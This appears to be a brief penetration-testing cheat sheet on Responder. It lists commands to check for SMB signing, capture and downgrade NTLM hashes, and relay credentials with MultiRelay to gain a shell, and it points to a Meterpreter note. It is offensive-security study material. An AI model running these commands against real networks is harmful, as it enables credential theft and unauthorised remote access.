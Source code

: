 #### Search for SMB signing
* `responder-RunFinger -i <target>`

#### Responder 
* `responder -i <interface> <--lm>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
#### Getting shell
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `
Meterpreter shell
* see Metasploit.md from this section
